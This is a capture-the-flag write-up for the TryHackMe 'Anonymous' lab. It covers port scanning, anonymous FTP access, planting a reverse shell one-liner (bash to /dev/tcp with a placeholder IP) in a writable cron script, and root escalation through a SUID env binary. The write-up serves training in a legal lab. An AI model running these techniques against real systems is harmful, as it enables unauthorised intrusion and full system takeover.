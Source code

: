 ```yaml
---
layout: post
title: THM Anonymous Write-up
excerpt_separator: <!--more-->
---
```

<img src="/img/anon-img/0.header-image.png">
<!--more-->
<a href="https://tryhackme.com/room/anonymous" target="_blank" > Click here to access this box on tryHackMe.com</a>
<p><b>Question 1. Enumerate the machine. How many ports are open?</b></p>
<p><b>Question 2. What service is running on port 21?</b></p>
<p><b>Question 3. What service is running on ports 139 and 445?</b></p>
<p>Let’s start off by  running a basic nmap scan for the top 1000 ports</p>
<p>We have ports 21,22,139 and 445 open. Let enumerate these further. </p>
<img src="/img/anon-img/1.basic_nmap_scan.png">
<p> Now let's check all 65k ports by using the -p- flag just to make sure there aren't anymore open ports. This will take a few minutes. While this is working let’s check out the FTP service on port 21.   
</p>
<img src="/img/anon-img/3.nmap_scan_all_ports.png">
<p>We’re able to login to the FTP service with anonymous:anonymous 
Let’s enumerate the file system.  </p>
<img src="/img/anon-img/4.Ftp_anon_login.png">
<p> There’s a directory named “scripts”  </p>
<img src="/img/anon-img/5.FTP_scrips_dir.png">
<p>There’s four files here. Let’s download these using the get command.  </p>
<img src="/img/anon-img/6.get_ftp_files.png">
<p>We’ll need to review these scripts, but first let’s check on our nmap scan.</p>
<p>Looks like these are the only open ports. Now you can answer question 1,2 and 3.</p>
<img src="/img/anon-img/7.nmap_all_ports_scan_results..png">
<p><b>Questions 4. There's a share on the user's computer.  What's it called?</b></p>
<p>Let’s look at the "to_do.txt" file we downloaded. Nothing helpful here.Let’s look at the other files. </p>
<img src="/img/anon-img/8.to_do.txt_output.png">
<p> Wow! There’s a bash script that’s probably running on a cron job, the only issue is we don’t know how often it runs. If we’re lucky it runs every few minutes. The good news is we have write  permissions, so It's definitely worth attempting  to gain a shell from it.  </p>
<img src="/img/anon-img/9.clean.sh_output.png">
<p>Let’s make a directory on our local machine named "FTP" and  mount the remote ftp directory using curlftpfs </p>
<img src="/img/anon-img/10.mkdir-ftp-and-mount.png">
<p>Cd into the FTP directory and open the clean.sh file in a text editor.  </p>
<img src="/img/anon-img/11.cd-gedit-file.png">
<img src="/img/anon-img/12.clean.sh-before-edit.png">
<p>Let’s add this bash shell command (bash -i >& /dev/tcp/your_ip_here/9001 0>&1) to the end of the script like below.  Don’t save  it yet we need to set up a listener to catch this shell on our local machine first.  </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>Set up a netcat listener on our local machine. </p>
<img src="/img/anon-img/14.setup-nc-listener.png">
<p>  Now save this file. </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>And we have a reverse shell. Let’s see if we can find the answer to question 4. </p>
<img src="/img/anon-img/15.rev-shell.png">
<p>Here we have the user.txt file and the directory of the FTP share we mounted. Let’s cat the user.txt  file, answer question 4 and 5. </p>
<img src="/img/anon-img/16.-user.txt.png">
<p>Now let’s start enumerating and try to gain a root shell. 
We can’t write to the passwd or shadow file, but it appears that we’re the only other useful user beside root, so no lateral movement should be needed to gain root. Let's keep enumerating.  </p>
<img src="/img/anon-img/17.passwd-shadow-files.png">
<p>After chacking the "usual suspects", nothing's standing out. Let’s try running linpeas and see what we can find.</p> <p>On your local host setup a python simple http server to host the linepeas file. </p>
<img src="/img/anon-img/18.pythong-simple-server.png">
<p>Back in your shell, if you're not already, navigate to your home folder and issue a wget command to download the linepease file. </p>
<img src="/img/anon-img/19.download-linpease.png">
<p>Make the file  executable  and run it like this ./linpease.sh </p>
<img src="/img/anon-img/20.linpease-running.png">
<p>This is interesting, let's check GTFObins. https://gtfobins.github.io/gtfobins/env/  </p>
<img src="/img/anon-img/21. linpease-env-binary.png">
<img src="/img/anon-img/22.GTFObins-on-the-env-binary.png">
<p> When we execute the env binary we can call /bin/sh but have to add -p to maintain permissions - in this case root and voila, we have root </p>
<img src="/img/anon-img/23.root-shell.png">
<p>Let's grab the root flag. </p>
<img src="/img/anon-img/24.root.txt.png">





